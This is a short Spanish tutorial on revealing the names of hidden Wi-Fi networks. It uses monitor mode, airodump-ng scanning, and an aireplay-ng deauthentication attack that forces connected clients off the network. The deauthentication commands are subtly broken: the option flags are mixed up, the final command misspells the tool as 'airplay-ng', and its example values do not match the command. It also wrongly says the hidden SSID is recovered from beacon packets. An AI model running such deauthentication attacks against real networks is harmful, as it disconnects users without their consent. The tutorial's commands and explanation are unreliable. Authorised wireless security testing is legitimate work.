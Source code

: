 # Detectar redes de wifi ocultas(hidden) ESSIDs

**Active el modo monitor en su interfaz inalámbrica.**

```
sudo iwconfig wlan0 mode monitor
```

**Escanee las redes inalámbricas cercanas con `airodump-ng`.**

```
airodump-ng -w airodump-ng.cap wlan0mon
```

**Los resultados del escaneo se mostrarán en la terminal.**&#x20;

Las redes ocultas aparecerán como `(ESSID)length`. El `length` es la longitud del SSID de la red oculta.

**Capturando el SSID de una red oculta**

Para capturar el SSID de una red oculta, podemos utilizar la herramienta `aireplay-ng`. Esta herramienta nos permite capturar paquetes de control inalámbricos, incluyendo los paquetes de Beacon. Los paquetes de Beacon son enviados por los puntos de acceso para anunciar su presencia.

Para capturar el SSID de una red oculta con `aireplay-ng`, podemos utilizar el comando `aireplay-ng -0 3 -e MAC -c BSSID wlan0mon`. Este comando realiza un ataque de desautenticación contra el cliente inalámbrico conectado a la red oculta. El ataque de desautenticación provocará que el cliente inalámbrico se desconecte de la red.

Una vez que el cliente inalámbrico se haya desconectado de la red, podemos capturar el paquete de Beacon enviado por el punto de acceso. Este paquete contendrá el SSID de la red oculta.

Por ejemplo, para capturar el SSID de la red oculta con el SSID `SSID_OCULTO` y el BSSID `00:11:22:33:44:55`, podemos ejecutar el siguiente comando:

```
airplay-ng -0 3 -e MAC -c BSSID wlan0mon
```
